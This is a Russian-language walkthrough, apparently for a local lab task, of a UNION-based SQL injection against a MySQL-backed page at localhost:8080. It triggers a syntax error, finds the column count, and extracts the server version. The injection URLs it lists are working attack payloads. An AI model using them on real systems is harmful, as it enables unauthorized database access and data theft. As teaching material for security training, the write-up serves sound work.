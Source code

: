 Проверяем, что все работает:
`http://localhost:8080/task/?id=1`

![start-ok](./images/start-ok.png)



Проверяем, возможно ли выполнение инъекции:

`http://localhost:8080/task/?id=1'`

И получаем ошибку:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

Из полученной ошибки мы видим, что используется MySQL и в запросе явно указано выражение LIMIT, что ограничивает вывод записей вне зависимости от количества найденных по заданному условию, поэтому мы уберем его в запросах с помощью комментария.

Теперь нам надо выяснить, сколько колонок должно быть в запросе, ведь они могут быть перечислены как явно по именам, так и все через указание *. **Во всех запросах будем использовать явно неверный идентификатор, чтобы всегда получать данные присоединенных запросов.**

`http://localhost:8080/task/?id=-1' union 1--+`

Получаем ошибку:
`The used SELECT statements have a different number of columns`

Методом перебора выясняем, что колонок должно быть 3:

`http://localhost:8080/task/?id=-1+union select "test", 2, 3--+`

Теперь видим вывод, значит наше предположение верно:
`Ваш id:test`
`Ваш логин:2`

Попробуем определить версию MySQL.

`http://localhost:8080/task/?id=-1' union select version(), 1, 2--+`

![mysql-version](./images/mysql-version.png)
